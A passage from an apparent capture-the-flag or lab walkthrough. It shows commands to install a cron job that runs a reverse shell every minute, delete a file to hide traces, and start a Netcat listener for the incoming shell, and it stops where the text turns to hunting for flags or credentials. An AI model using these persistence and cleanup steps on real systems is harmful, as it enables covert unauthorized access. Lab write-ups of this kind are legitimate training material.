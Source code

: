 #### 4. Applying the Cron Job

Now, we apply the cron job to the current user by using `crontab`:

```bash
crontab -i cron
```

- **Explanation**: The `crontab -i` command installs the cron job we just created for the current user. This schedules the reverse shell to execute every minute. The `-i` flag prompts for confirmation before replacing the existing crontab.

Verify the newly installed cron job:

```bash
crontab -l
```

- **Explanation**: `crontab -l` lists the currently installed cron jobs for the user. This allows us to confirm that the reverse shell job has been successfully added.

---

#### 5. Cleaning Up Traces

Remove any unwanted files, such as the `wait` file, which could be a trace of our activity:

```bash
rm wait
```

- **Explanation**: We use the `rm` command to remove the `wait` file. This could be part of the cleanup process to hide traces of our actions.

---

#### 6. Setting Up a Netcat Listener

On the attacker's machine, we set up a Netcat listener to wait for the reverse shell connection from the target:

```bash
nc -nvlp 1234
```

- **Explanation**: `nc` (Netcat) is used to listen on port `1234` for incoming connections. The flags mean:
  - `-n`: Prevents DNS resolution (IP addresses only).
  - `-v`: Enables verbose output.
  - `-l`: Tells Netcat to listen for an incoming connection.
  - `-p 1234`: Specifies the port (`1234`) to listen on.

---

#### 7. Obtaining Access and Checking for Sensitive Files

Once the reverse shell connects back to our machine, we can interact with the target system. We might want to check for any valuable files like flags or credentials:
